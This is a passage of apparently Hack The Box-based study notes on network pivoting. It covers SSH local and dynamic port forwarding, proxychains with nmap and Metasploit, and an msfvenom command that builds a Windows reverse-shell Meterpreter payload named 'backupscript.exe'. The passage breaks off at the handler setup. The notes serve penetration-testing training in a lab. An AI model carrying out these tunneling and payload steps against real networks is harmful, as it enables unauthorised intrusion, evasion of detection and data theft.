






- [Pivoting](#pivoting)
  - [Introduction](#introduction)
    - [Lateral Movement, Pivoting, and Tunneling Compared](#lateral-movement-pivoting-and-tunneling-compared)
      - [Lateral Movement](#lateral-movement)
      - [Pivoting](#pivoting-1)
      - [Tunneling](#tunneling)
    - [The Networking Behind Pivoting](#the-networking-behind-pivoting)
      - [IP Addressing \& NICs](#ip-addressing--nics)
      - [Routing](#routing)
      - [Protocols, Services \& Ports](#protocols-services--ports)
  - [Starting the Tunnels](#starting-the-tunnels)
    - [Dynamic Port Forwarding with SSH and SOCKS Tunneling](#dynamic-port-forwarding-with-ssh-and-socks-tunneling)
      - [Port Forwarding](#port-forwarding)
      - [SSH Local Port Forwarding](#ssh-local-port-forwarding)
        - [Scanning the Pivot Target](#scanning-the-pivot-target)
        - [Executing the Local Port Forward](#executing-the-local-port-forward)
        - [Confirming Port Forward with Netstat](#confirming-port-forward-with-netstat)
        - [Confirming Port Forward with nmap](#confirming-port-forward-with-nmap)
        - [Forwarding Multiple Ports](#forwarding-multiple-ports)
      - [Setting up to Pivot (_Dynamic Port Forwarding_)](#setting-up-to-pivot-dynamic-port-forwarding)
        - [Enabling Dynamic Port Forwarding with SSH](#enabling-dynamic-port-forwarding-with-ssh)
        - [Checking /etc/proxychains.conf](#checking-etcproxychainsconf)
        - [Using nmap with Proxychains](#using-nmap-with-proxychains)
      - [Using Metasploit with Proxychains](#using-metasploit-with-proxychains)
    - [Remote/Reverse Port Forwarding with SSH](#remotereverse-port-forwarding-with-ssh)
      - [Creating a Windows Payload with msfvenom](#creating-a-windows-payload-with-msfvenom)
      - [Configuring \& Starting the multi/handler](#configuring--starting-the-multihandler)
      - [Transferring Payload to Pivot Host](#transferring-payload-to-pivot-host)
      - [Starting Python3 Webserver on Pivot Host](#starting-python3-webserver-on-pivot-host)
      - [Downloading Payload on the Windows Target](#downloading-payload-on-the-windows-target)
      - [Using SSH -R](#using-ssh--r)
      - [Viewing the Logs from the Pivot](#viewing-the-logs-from-the-pivot)
      - [Meterpreter Session Established](#meterpreter-session-established)
    - [Meterpreter Tunneling \& Port Forwarding](#meterpreter-tunneling--port-forwarding)
      - [Scenario](#scenario)
      - [Port Forwarding](#port-forwarding-1)
      - [Reverse Port Forwarding](#reverse-port-forwarding)
  - [Socat](#socat)
    - [Redirection with Reverse Shell](#redirection-with-reverse-shell)
    - [Redirection with Bind Shell](#redirection-with-bind-shell)
  - [Pivoting around Obstacles](#pivoting-around-obstacles)
    - [SSH for Windows: plink.exe](#ssh-for-windows-plinkexe)
    - [SSH Pivoting with Sshuttle](#ssh-pivoting-with-sshuttle)

---

# Pivoting

## Introduction

### Lateral Movement, Pivoting, and Tunneling Compared

#### Lateral Movement

... can be described as a technique used to further your access to additional hosts, applications, and services within a network environment. Lateral movement can also help you gain access to specific domain resources you may need to elevate your privileges. Lateral Movement often enables privesc across hosts.

#### Pivoting

Utilizing multiple hosts to cross network boundaries you would not usually have access to. This is more of a targeted objective. The goal here is to allow you to move deeper into a network by compromising targeted hosts or infrastructure.

#### Tunneling

You often find yourself using various protocols to shuttle traffic in/out of a network where there is a chance of your traffic being detected. For example, using HTTP to mask your C2 traffic from a server you own to the victim host. The key here is obfuscation of your actions to avoid detection for as long as possible. You utilize protocols with enhanced security measures such as HTTPS over TLS or SSH over other protocols. These types of actions also enable tactics like the exfiltration of data out of a target network or the delivery of more payloads and instructions into the network.

### The Networking Behind Pivoting

#### IP Addressing & NICs

Every Computer that is communicating on a network needs an IP address. If it doesn't have one, it is not on a network. The IP address is assigned in software and usually obtained automatically from a DHCP server. It is also common to see computers with statically assigend IP addresses. Static IP assignment is common with:

- servers
- routers
- switch virtual interfaces
- printers
- and any devices that are providing critical services to the network

Whether assigned dynamically or statically, the IP address is assigned to a Network Interface Controller (_NIC_). Commonly, the NIC is referred to as a a Network Interface Card or Network Adapter. A computer can have multiple NICs, meaning it can have multiple IP addresses assigned, allowing it to communicate on various networks. Identifying pivoting oppurtunities will often depend on the specific IPs assigned to the hosts you compromise because they can indicate the networks compromised hosts can reach. This is why it is important for you to always check for additional NICs using commands like ```ifconfig```.

```bash
d41y@htb[/htb]$ ifconfig

eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 134.122.100.200  netmask 255.255.240.0  broadcast 134.122.111.255
        inet6 fe80::e973:b08d:7bdf:dc67  prefixlen 64  scopeid 0x20<link>
        ether 12:ed:13:35:68:f5  txqueuelen 1000  (Ethernet)
        RX packets 8844  bytes 803773 (784.9 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 5698  bytes 9713896 (9.2 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.106.0.172  netmask 255.255.240.0  broadcast 10.106.15.255
        inet6 fe80::a5bf:1cd4:9bca:b3ae  prefixlen 64  scopeid 0x20<link>
        ether 4e:c7:60:b0:01:8d  txqueuelen 1000  (Ethernet)
        RX packets 15  bytes 1620 (1.5 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 18  bytes 1858 (1.8 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 19787  bytes 10346966 (9.8 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 19787  bytes 10346966 (9.8 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.15.54  netmask 255.255.254.0  destination 10.10.15.54
        inet6 fe80::c85a:5717:5e3a:38de  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef:2::1034  prefixlen 64  scopeid 0x0<global>
        unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 500  (UNSPEC)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 7  bytes 336 (336.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

In the output above, each NIC has an identifier (_eth0, eth1, lo, tun_) followed by addressing information and traffic statistics. The tunnel interface indicates a VPN connection is active. The VPN encrypts traffic and also establishes a tunnel over a public network, through NAT on a public-facing network appliance, and into the internal/private network. Also, notice the ISPs will route traffic originating from this IP over the internet. You will see public IPs on devices that are directly facing the internet, commonly hosted ind DMZs. The other NICs have private IP addresses, which are routable within internal networks but not over the public internet.

```powershell
PS C:\Users\htb-student> ipconfig

Windows IP Configuration

Unknown adapter NordLynx:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . :

Ethernet adapter Ethernet0 2:

   Connection-specific DNS Suffix  . : .htb
   IPv6 Address. . . . . . . . . . . : dead:beef::1a9
   IPv6 Address. . . . . . . . . . . : dead:beef::f58b:6381:c648:1fb0
   Temporary IPv6 Address. . . . . . : dead:beef::dd0b:7cda:7118:3373
   Link-local IPv6 Address . . . . . : fe80::f58b:6381:c648:1fb0%8
   IPv4 Address. . . . . . . . . . . : 10.129.221.36
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:df81%8
                                       10.129.0.1

Ethernet adapter Ethernet:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . :
```

The output directly above is from issuing ```ipconfig``` on a Windows system. You can see that this system has multiple adapters, but only one of them has IP addresses assigned. There are IPv6 and IPv4 addresses.

Every IPv4 address will have a corresponding subnet mask. If an IP address is like a phone number, the subnet mask is like the area code. Remember that the subnet mask defines the network & host portion of an IP address. When network traffic is destined for an IP address located in a different network, the computer will send the traffic to its assigned default gateway. The default gateway is usually the IP address assigned to a NIC on an appliance acting as the router for a given LAN. In the context of pivoting, you need to be mindful of what networks a host you land on can reach, so documenting as much IP addressing information as possible on an engagement can prove helpful.

#### Routing

It is common to think of a network appliance that connects you to the internet when thinking about a router, but technically any computer can become a router and participate in routing. One key defining characteristic of a router is that it has a routing table that it uses to forward traffic based on the destination IP address.

```bash
d41y@htb[/htb]$ netstat -r

Kernel IP routing table
Destination     Gateway         Genmask         Flags   MSS Window  irtt Iface
default         178.62.64.1     0.0.0.0         UG        0 0          0 eth0
10.10.10.0      10.10.14.1      255.255.254.0   UG        0 0          0 tun0
10.10.14.0      0.0.0.0         255.255.254.0   U         0 0          0 tun0
10.106.0.0      0.0.0.0         255.255.240.0   U         0 0          0 eth1
10.129.0.0      10.10.14.1      255.255.0.0     UG        0 0          0 tun0
178.62.64.0     0.0.0.0         255.255.192.0   U         0 0          0 eth0
```

Any traffic destined for networks not present in the routing table will be sent to the default route, which can also be referred to as the default gateway or gateway of last resort. When looking for oppurtunities to pivot, it can be helpful to look at the hosts' routing table to identify which networks you may be able to reach or which routes you may need to add.

#### Protocols, Services & Ports

Protocols are the rules that govern network communications. Many protocols and services have corresponding ports that act as identifiers. Logical ports aren't physical things you can touch or plug anything into. They are in software assigned to applications. When you see an IP address, you know it identifies a computer that may be reachable over a network. When you see an open port bound to that IP address, you know that it identifies an application you may be able to connect to. Connecting to specific ports that a device is listening on can often allow you to use ports & protocols that are permitted in the firewall to gain a foothold on the network.

For example, a web server using HTTP. The admins should not block traffic coming inbound on port 80. This would prevent anyone from visiting the website they are hosting. This is often a way into the network environment, through the same port that legitimate traffic is passing.

## Starting the Tunnels

### Dynamic Port Forwarding with SSH and SOCKS Tunneling

#### Port Forwarding

... is a technique that allows you to redirect a communication request from one port to another. Port forwarding uses TCP as the primary communication layer to provide interactive communication for the forwarded port. However, different application layer protocols such as SSH or even SOCKS can be used to encapsulate the forwarded traffic. This can be effective in bypassing firewalls and using existing services on your compromised host to pivot to other networks.

#### SSH Local Port Forwarding



##### Scanning the Pivot Target

You have your attack host (_10.10.15.x_) and a target Ubuntu server (_10.129.x.x_), which you have compromised. You will scan the target Ubuntu server using nmap to search for open ports.

```bash
d41y@htb[/htb]$ nmap -sT -p22,3306 10.129.202.64

Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-24 12:12 EST
Nmap scan report for 10.129.202.64
Host is up (0.12s latency).

PORT     STATE  SERVICE
22/tcp   open   ssh
3306/tcp closed mysql

Nmap done: 1 IP address (1 host up) scanned in 0.68 seconds
```

##### Executing the Local Port Forward

The nmap output shows that the SSH port is open. To access the MySQL service, you can either SSH into the server and access MySQL from inside the Ubuntu server, or you can port forward it to your localhost on port 1234 and access it locally. A benefit of accessing it locally is if you want to execute a remote exploit on the MySQL service, you won't be able to do it without port forwarding. This is due to MySQL being hosted locally on the Ubuntu server on port 3306. So, you will use the below command to forward your local port over SSH to the Ubuntu server.

```bash
d41y@htb[/htb]$ ssh -L 1234:localhost:3306 ubuntu@10.129.202.64

ubuntu@10.129.202.64's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-91-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu 24 Feb 2022 05:23:20 PM UTC

  System load:             0.0
  Usage of /:              28.4% of 13.72GB
  Memory usage:            34%
  Swap usage:              0%
  Processes:               175
  Users logged in:         1
  IPv4 address for ens192: 10.129.202.64
  IPv6 address for ens192: dead:beef::250:56ff:feb9:52eb
  IPv4 address for ens224: 172.16.5.129

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

66 updates can be applied immediately.
45 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable
```

The ```-L``` command tells the SSH client to request the SSH server to forward all the data you send via the port 1234 to localhost:3306 on the Ubuntu server. By doing this, you should be able to access the MySQL service locally on port 1234. You can use Netstat or nmap to query your localhost on port 1234 to verify whether the MySQL service was forwarded.

##### Confirming Port Forward with Netstat

```bash
d41y@htb[/htb]$ netstat -antp | grep 1234

(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
tcp        0      0 127.0.0.1:1234          0.0.0.0:*               LISTEN      4034/ssh            
tcp6       0      0 ::1:1234                :::*                    LISTEN      4034/ssh     
```

##### Confirming Port Forward with nmap

```bash
d41y@htb[/htb]$ nmap -v -sV -p1234 localhost

Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-24 12:18 EST
NSE: Loaded 45 scripts for scanning.
Initiating Ping Scan at 12:18
Scanning localhost (127.0.0.1) [2 ports]
Completed Ping Scan at 12:18, 0.01s elapsed (1 total hosts)
Initiating Connect Scan at 12:18
Scanning localhost (127.0.0.1) [1 port]
Discovered open port 1234/tcp on 127.0.0.1
Completed Connect Scan at 12:18, 0.01s elapsed (1 total ports)
Initiating Service scan at 12:18
Scanning 1 service on localhost (127.0.0.1)
Completed Service scan at 12:18, 0.12s elapsed (1 service on 1 host)
NSE: Script scanning 127.0.0.1.
Initiating NSE at 12:18
Completed NSE at 12:18, 0.01s elapsed
Initiating NSE at 12:18
Completed NSE at 12:18, 0.00s elapsed
Nmap scan report for localhost (127.0.0.1)
Host is up (0.0080s latency).
Other addresses for localhost (not scanned): ::1

PORT     STATE SERVICE VERSION
1234/tcp open  mysql   MySQL 8.0.28-0ubuntu0.20.04.3

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.18 seconds
```

##### Forwarding Multiple Ports

Similarly, if you want to forward multiple ports from the Ubuntu server to your localhost, you can do so by including the ```local port:server:port``` argument to your SSH command.

```bash
d41y@htb[/htb]$ ssh -L 1234:localhost:3306 -L 8080:localhost:80 ubuntu@10.129.202.64
```

#### Setting up to Pivot (_Dynamic Port Forwarding_)

Now, if you type ```ifconfig``` on the Ubuntu host, you will find that this server has multiple NICs:

- one connected to your attack host
- one communicating to other hosts within a different network
- the loopback interface

```bash
ubuntu@WEB01:~$ ifconfig 

ens192: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.129.202.64  netmask 255.255.0.0  broadcast 10.129.255.255
        inet6 dead:beef::250:56ff:feb9:52eb  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::250:56ff:feb9:52eb  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:b9:52:eb  txqueuelen 1000  (Ethernet)
        RX packets 35571  bytes 177919049 (177.9 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 10452  bytes 1474767 (1.4 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

ens224: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.16.5.129  netmask 255.255.254.0  broadcast 172.16.5.255
        inet6 fe80::250:56ff:feb9:a9aa  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:b9:a9:aa  txqueuelen 1000  (Ethernet)
        RX packets 8251  bytes 1125190 (1.1 MB)
        RX errors 0  dropped 40  overruns 0  frame 0
        TX packets 1538  bytes 123584 (123.5 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 270  bytes 22432 (22.4 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 270  bytes 22432 (22.4 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

Unlike the previous scenario where you knew which port to access, in your current scenario, you don't know which services lie on the other side of the network. So, you can scan smaller ranges of IPs on the network (_172.16.5.1-200_) network or the entire subnet. You cannot perform this attack directly from your attack host because it does not have routes to the network. To do this, you will have to perform dynamic port fowarding and pivot your network packets via the Ubuntu server. You can do this by starting a SOCKS listener on your localhost and then configure SSH to forward that traffic via SSH to the network after connecting to the target host.

This is called SSH tunneling over SOCKS proxy. SOCKS stands for Socket Secure, a protocol that helps communicate with servers where you have firewall restrictions in place. Unlike most cases where you would initiate a connection to connect to a service, in the case of SOCKS, the initial traffic is generated by a SOCKS client, which connects to the SOCKS server controlled by the user who wants to access a service on the client-side. Once the connection is established, network traffic can be routed through the SOCKS server on behalf of the connected client.

This technique is often used to circumvent the restrictions put in place by firewalls, and allow an external entity to bypass the firewall and access a service within the firewalled environment. One more benefit of using SOCKS proxy for pivoting and forwarding data is that SOCKS proxies can pivot via creating a route to an external server from NAT networks. SOCKS proxies are currently of two types: SOCKS4 and SOCKS5. SOCKS4 doesn't provide any authentication and UDP support, whereas SOCKS5 does provide that



In the above image, the attack host starts the SSH client and requests the SSH server to allow it to send some TCP data over the SSH socket. The SSH server responds with an ack, and the SSH client then starts listening on localhost:9050. Whatever data you send here will be broadcasted to the entire network over SSH. You can use the below command to perform this dynamic port forwarding.

##### Enabling Dynamic Port Forwarding with SSH

```bash
d41y@htb[/htb]$ ssh -D 9050 ubuntu@10.129.202.64
```

The ```-D``` argument requests the SSH server to enable dynamic port forwarding. Once you have this enabled, you will require a tool that can route any tool's packets over the port 9050. You can do this using proxychains, which is capable of redirecting TCP connections through TOR, SOCKS, and HTTP/HTTPS proxy servers and also allows you to chain multiple proxy servers together. Using proxychains, you can hide the IP address of the requesting host as well since the receiving host will only see the IP of the pivot host. Proxychains is often used to force an application's TCP traffic to go through hosted proxies like SOCKS4/SOCKS5, TOR, or HTTP/HTTPS proxies.

##### Checking /etc/proxychains.conf

To inform proxychains that you must use port 9050, you must modify the proxychains config file located at ```/etc/proxychains.conf```. You can add ```socks4 127.0.0.1 9050``` to the last line if it is not already there.

```bash
d41y@htb[/htb]$ tail -4 /etc/proxychains.conf

# meanwile
# defaults set to "tor"
socks4 	127.0.0.1 9050
```

##### Using nmap with Proxychains

Now when you start nmap with proxychains using the command below, it will route all the packets of nmap to the local port 9050, where your SSH client is listening, which will forward all the packets over SSH to the network.

```bash
d41y@htb[/htb]$ proxychains nmap -v -sn 172.16.5.1-200

ProxyChains-3.1 (http://proxychains.sf.net)

Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-24 12:30 EST
Initiating Ping Scan at 12:30
Scanning 10 hosts [2 ports/host]
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.2:80-<--timeout
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.5:80-<><>-OK
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.6:80-<--timeout
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0

<SNIP>
```

This part of packing all your nmap data using proxychains and forwarding it to a remote server is called SOCKS tunneling. One more important note to remember here is that you can only perform a full TCP connect scan over proxychains. The reason for this is that proxychains cannot understand partial packets. If you send partial packets like half connect scans, it will return incorrect results. You also need to make sure you are aware of the fact that host-alive checks may not work against Windows targets because the Windows Defender firewall blocks ICMP requests by default.

A full TCP connect scan without ping on an entire network range will take a long time.

#### Using Metasploit with Proxychains

You can also open Metasploit using proxychains and send all associated traffic through the proxy you have established.

```bash
d41y@htb[/htb]$ proxychains msfconsole

ProxyChains-3.1 (http://proxychains.sf.net)
                                                  

     .~+P``````-o+:.                                      -o+:.
.+oooyysyyssyyssyddh++os-`````                        ```````````````          `
+++++++++++++++++++++++sydhyoyso/:.````...`...-///::+ohhyosyyosyy/+om++:ooo///o
++++///////~~~~///////++++++++++++++++ooyysoyysosso+++++++++++++++++++///oossosy
--.`                 .-.-...-////+++++++++++++++////////~~//////++++++++++++///
                                `...............`              `...-/////...`


                                  .::::::::::-.                     .::::::-
                                .hmMMMMMMMMMMNddds\...//M\\.../hddddmMMMMMMNo
                                 :Nm-/NMMMMMMMMMMMMM$$NMMMMm&&MMMMMMMMMMMMMMy
                                 .sm/`-yMMMMMMMMMMMM$$MMMMMN&&MMMMMMMMMMMMMh`
                                  -Nd`  :MMMMMMMMMMM$$MMMMMN&&MMMMMMMMMMMMh`
                                   -Nh` .yMMMMMMMMMM$$MMMMMN&&MMMMMMMMMMMm/
    `oo/``-hd:  ``                 .sNd  :MMMMMMMMMM$$MMMMMN&&MMMMMMMMMMm/
      .yNmMMh//+syysso-``````       -mh` :MMMMMMMMMM$$MMMMMN&&MMMMMMMMMMd
    .shMMMMN//dmNMMMMMMMMMMMMs`     `:```-o++++oooo+:/ooooo+:+o+++oooo++/
    `///omh//dMMMMMMMMMMMMMMMN/:::::/+ooso--/ydh//+s+/ossssso:--syN///os:
          /MMMMMMMMMMMMMMMMMMd.     `/++-.-yy/...osydh/-+oo:-`o//...oyodh+
          -hMMmssddd+:dMMmNMMh.     `.-=mmk.//^^^\\.^^`:++:^^o://^^^\\`::
          .sMMmo.    -dMd--:mN/`           ||--X--||          ||--X--||
........../yddy/:...+hmo-...hdd:............\\=v=//............\\=v=//.........
================================================================================
=====================+--------------------------------+=========================
=====================| Session one died of dysentery. |=========================
=====================+--------------------------------+=========================
================================================================================

                     Press ENTER to size up the situation

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%% Date: April 25, 1848 %%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%% Weather: It's always cool in the lab %%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%% Health: Overweight %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%% Caffeine: 12975 mg %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%% Hacked: All the things %%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

                        Press SPACE BAR to continue


       =[ metasploit v6.1.27-dev                          ]
+ -- --=[ 2196 exploits - 1162 auxiliary - 400 post       ]
+ -- --=[ 596 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: Adapter names can be used for IP params 
set LHOST eth0

msf6 > 
```

### Remote/Reverse Port Forwarding with SSH



_What happens if you try to gain a reverse shell?_

The outgoing connection for the Windows host is only limited to the 172.16.5.0/23 network. This is because the Windows host does not have any direct connection with the network the attack host is on. If you start a Metasploit listener on your attack host and try to get a reverse shell, you won't be able to get a direct connection here because the Windows server doesn't know how to route traffic leaving its network to reach the 10.129.x.x.

In cases like this, you would have to find a pivot host, which is a common connection point between your attack host and the Windows server. In your case, your pivot host would be the Ubuntu server since it connect to both: your attack host and the Windows target. To gain a Meterpreter shell on Windows, you will create a Meterpreter HTTPS payload using msfvenom, but the configuration of the reverse connection for the payload would be the Ubuntu server's host IP address. You will use the port 8080 on the Ubuntu server to forward all of your reverse packets to your attack hosts' 8000 port, where your Metasploit listener is running.

#### Creating a Windows Payload with msfvenom

```bash
d41y@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 712 bytes
Final size of exe file: 7168 bytes
Saved as: backupscript.exe
```

... and:

#### Configuring & Starting the multi/handler

```bash
msf6 > use exploit/multi/handler

